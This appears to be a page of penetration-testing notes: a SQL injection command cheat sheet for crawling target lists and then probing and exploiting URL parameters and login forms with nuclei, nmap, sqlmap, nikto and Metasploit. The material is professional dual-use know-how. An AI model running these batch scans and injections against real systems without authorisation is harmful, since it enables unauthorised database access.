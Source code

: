 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - information-gathering
  - vulnerability-assessment
  - server-side-attack
  - sql-injection
  - blind-sql-injection
  - network-protocols
  - http
  - nuclei
  - nikto
  - metasploit-framework
  - sqlmap
---
```

# Scanners

## 01 - SQL Syntax Error Detection

### 1.1 - Nuclei

```
$ nuclei -u <URL> -t ~/nuclei-templates -id php-errors
```

### 1.2 - Wapiti

```
$ waptiti -u <URL> -m sql
```

### 1.3 - Whatweb

```
$ whatweb -p mySQL-Error,mysql_connect,Microsoft-ODBC-Error <URL>
```

### 1.4 - Metasploit

```
msf > use auxiliary/scanner/http/error_sql_injection

options

set method <GET | POST>

set path /path/to/uri

set rhosts <IP>

run
```

## 02 - URL Endpoints

### 2.1 - Crawl Endpoints

Crawl URLs with parameters.

```
$ katana -list urls.txt -f qurl [-fx] -d 5 -em php,asp,aspx,jsp | httpx -mc 200 -o crawled_urls.txt

$ katana -list urls.txt -f qurl [-fx] -d 5 -ef jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt,js,md | httpx -mc 200 -o crawled_urls.txt
```

### 2.2 - Detect Vulnerable Endpoints

Quickly scan the GET request parameters with `nuclei`.

```
$ nuclei -l crawled_urls.txt -t ~/nuclei-templates -pt http -dast -tags sqli -o sqli-output.txt
```

Using `nmap` to scan multiple targets.

```
$ nmap -p80,443 -Pn -n --script http-sql-injection [--script-args="http-sql-injection.url=<spider/start/path/to/URL>"],http.useragent='<user_agent>' -iL ip_targets.txt
```

Perform SQL Injection on the live targets via GET request parameters.

```
$ sqlmap -m crawled_urls.txt --drop-set-cookie --dbms=mysql --smart --technique=B --batch

$ sqlmap -m crawled_urls.txt --drop-set-cookie --dbms=postgresql --smart --technique=B --batch
```

## 03 - Login and Registration Forms

### 3.1 - Crawl Forms

Crawl URLs with panels or forms.

```
$ katana -silent -u urls.txt -field url -cs login_urls_wordlist.txt | httpx -silent -mc 200 -o crawled_urls.txt
```

### 3.2 - Detect Vulnerable Forms

Perform SQL Injection on the live targets via forms.

```
$ sqlmap -m crawled_urls.txt --drop-set-cookie --forms --dbms=mysql --smart --technique=B --batch

$ sqlmap -m crawled_urls.txt --drop-set-cookie --forms --dbms=postgresql --smart --technique=B --batch
```

## 04 - Vulnerable Web Component

### 4.1 - Nuclei

```
$ httpx -silent -l url_targets.txt | nuclei -t ~/nuclei-templates -tags sqli -o sqli-output.txt
```

### 4.2 - Nikto

```
$ nikto -host <IP> -Tuning 9a -no404 -Plugins "content_search;tests"
```

TODO: Fill this info

## 05 - SQL Injection Exploits

### 5.1 - Wapiti

```
$ wapiti -u <URL> -m sql,timesql
```

### 5.2 - Metasploit

```
msf > use auxiliary/scanner/http/blind_sql_query

options

set method <GET | POST>

set path /path/to/uri

set rhosts <IP>

run
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x03 - Bypass Webapp Security/Web Application Firewall (WAF)/Helpers/User Agents]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x01 - WebApp Security Scanners/Nikto/Usage/02 - Basic|Nikto]]

### Hacking Articles

- [Hacking Articles: Exploiting Sql Injection with Nmap and Sqlmap](https://www.hackingarticles.in/exploiting-sql-injection-nmap-sqlmap/)
